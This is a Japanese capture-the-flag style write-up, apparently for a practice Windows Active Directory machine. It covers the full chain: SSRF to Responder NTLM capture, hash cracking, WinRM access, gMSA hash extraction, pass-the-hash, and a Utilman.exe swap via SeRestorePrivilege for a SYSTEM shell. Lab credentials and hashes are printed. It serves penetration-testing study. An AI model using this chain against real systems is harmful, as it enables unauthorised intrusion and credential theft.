

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows (Server 2019) |
| 難易度 | Hard |
| 攻撃対象 | Webアプリケーション (Werkzeug :8080) と Active Directory |
| 主な侵入経路 | SSRF :8080 -> Responder NTLMリレー -> ハッシュクラック |
| 権限昇格経路 | gMSAパスワード取得 -> SeRestorePrivilege -> Utilman.exe差し替え |

## 認証情報

```text
enox               california
svc_apache$         B4A3125F0CB30FCBB499D4B4EB1C20D2  (gMSA経由のNTハッシュ)
```

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.165:53
Open 192.168.198.165:88
Open 192.168.198.165:135
Open 192.168.198.165:389
Open 192.168.198.165:445
Open 192.168.198.165:3389
Open 192.168.198.165:5985
Open 192.168.198.165:8080
Open 192.168.198.165:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: heist.offsec)
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http          Werkzeug httpd 2.0.1 (Python 3.9.0)
|_http-title: Super Secure Web Browser
9389/tcp  open  mc-nmf        .NET Message Framing
```

SMB、RPC、LDAPはすべて認証必須で匿名アクセスは不可。ポート8080のディレクトリ探索でもメインページ以外は見つからなかった。

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt \
  -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 \
  -x php,html,txt -u http://$ip:8080
```

```bash
200      GET      202l      346w     3608c http://192.168.198.165:8080/
```

## 初期侵入

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

ポート8080は「Super Secure Web Browser」というSSRFが可能なアプリケーションだった。攻撃マシンのIPを指定してアウトバウンドHTTPリクエストを確認:

```bash
updog -p 445
```

```bash
192.168.198.165 - - [16/Mar/2026 02:48:54] "GET / HTTP/1.1" 200 -
```

Responderをtun0で起動し、再度SSRFを発火させてNTLMv2ハッシュを取得:

```bash
sudo responder -I tun0 -wv
```

```bash
[HTTP] NTLMv2 Client   : 192.168.198.165
[HTTP] NTLMv2 Username : HEIST\enox
[HTTP] NTLMv2 Hash     : enox::HEIST:bf72a7715fafdfef:87373D7ED6C82B967606ADF844E16500:0101000000000000...
```

Johnでハッシュをクラック:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
california       (enox)
```

取得した認証情報でWinRM接続:

```bash
evil-winrm -i $ip -u enox -p california
```

```bash
*Evil-WinRM* PS C:\Users\enox\Documents>
```

```bash
*Evil-WinRM* PS C:\users\enox\desktop> type local.txt
0a7b29652d1403740c3e9f159a2f9992
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
`enox` は `Web Admins` グループのメンバーであり、`svc_apache$` のgMSAパスワードを取得する権限を持っていた:

```bash
*Evil-WinRM* PS C:\> net user enox
Global Group memberships     *Web Admins           *Domain Users
```

```bash
*Evil-WinRM* PS C:\> Get-ADServiceAccount -Filter "name -eq 'svc_apache'" -Properties * | Select CN,PrincipalsAllowedToRetrieveManagedPassword
CN          : svc_apache
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,..., CN=Web Admins,...}
```

GMSAPasswordReader.exeで `svc_apache$` のNTハッシュを抽出:

```bash
*Evil-WinRM* PS C:\> .\GMSAPasswordReader.exe --AccountName 'svc_apache'
Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*]       rc4_hmac             : B4A3125F0CB30FCBB499D4B4EB1C20D2
```

gMSAアカウントでPass-the-Hash WinRM接続:

```bash
evil-winrm -i $ip -u svc_apache$ -H 'B4A3125F0CB30FCBB499D4B4EB1C20D2'
```

```bash
*Evil-WinRM* PS C:\Users\svc_apache$\Documents>
```

`svc_apache$` は `SeRestorePrivilege` を保有しており、システムディレクトリへの任意のファイル書き込みが可能。`Utilman.exe` を `cmd.exe` に差し替え:

```bash
*Evil-WinRM* PS C:\windows\system32> ren Utilman.exe Utilman.old
*Evil-WinRM* PS C:\windows\system32> copy cmd.exe Utilman.exe
```

RDPで接続し、ログイン画面で `Win+U` を押すとSYSTEMシェルが起動:

```bash
C:\Windows\system32> whoami
nt authority\system
```

```bash
C:\Users\Administrator\Desktop> type proof.txt
```

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- 内部Webアプリケーションの SSRF エンドポイントを利用して Responder で NTLM ハッシュを取得できる。
- gMSA パスワードはマシンアカウントだけが取得できるべき — `PrincipalsAllowedToRetrieveManagedPassword` に人間のユーザーが含まれているのは設定ミス。
- `SeRestorePrivilege` はシステムバイナリの上書きを許可する — `Utilman.exe` を `cmd.exe` に差し替えて RDP 経由で SYSTEM シェルを取得。
- SSRF から漏洩した NTLMv2 ハッシュのクラックは AD 環境への初期アクセスとして有効。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- Responder: https://github.com/lgandx/Responder
- GMSAPasswordReader: https://github.com/rvazarkar/GMSAPasswordReader
- SeRestorePrivilege Abuse: https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
